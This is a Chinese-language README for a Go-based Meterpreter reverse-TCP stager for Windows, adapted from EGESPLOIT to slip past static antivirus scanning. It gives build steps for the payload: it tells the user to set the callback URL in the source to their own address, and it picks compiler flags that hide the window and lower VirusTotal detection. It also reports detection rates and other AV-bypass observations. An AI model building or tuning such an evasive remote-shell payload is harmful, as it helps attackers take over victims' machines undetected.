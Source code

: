 # go_meterpreter
Golang实现的x86下的Meterpreter reverse tcp

做静态免杀实验，代码修改自[EGESPLOIT](https://github.com/EgeBalci/EGESPLOIT) 这个开源项目。单独实现主要在于减小程序编译后体积。目前编译后的大小在1.2M左右。

## 使用方法

修改go_meterpreter.go中125行代码 s := "http://192.168.121.131:8989" IP和端口修改为自己的地址。然后就可以go build了。
'''
set GOARCH=386
go build -ldflags="-H windowsgui -w"   

'''
注意上面参数中没有-s，因为实际测试，使用这种方式build后的程序免杀效果会好一些。如果直接go build，程序会有窗口，同时大小也在1.6M左右。

由于加入了这部分代码，运行后因为执行多次无用代码，需要等一会才可以看到上线。另外目前会出现连接两次msf的情况，但是只有一个连接会返回shell，目前没找到原因。

## 免杀效果

加入了Bypass AV的代码。

我在刚写好的时候上传到VT，查杀结果位8/62。VT上有超过70个引擎，62个应该是加入BypassAV代码起的作用。

今天最新经过编译查杀结果为20/70。由于现在杀毒都有云查杀，刚写的时候效果好，但是过几天就被被杀。这里具体可以结合一些其他方式来尝试绕过。

VT检测结果地址：[https://www.virustotal.com/gui/file/f8ff4acac418e6cdc326d0139ba2bdb9fce32558985962cf8303fcc97b9e47fb/detection](https://www.virustotal.com/gui/file/f8ff4acac418e6cdc326d0139ba2bdb9fce32558985962cf8303fcc97b9e47fb/detection)

在使用这个的过程中，Windows10中自带的杀毒软件会拦截。会被动态行为发现。这里仅是过静态查杀测试。



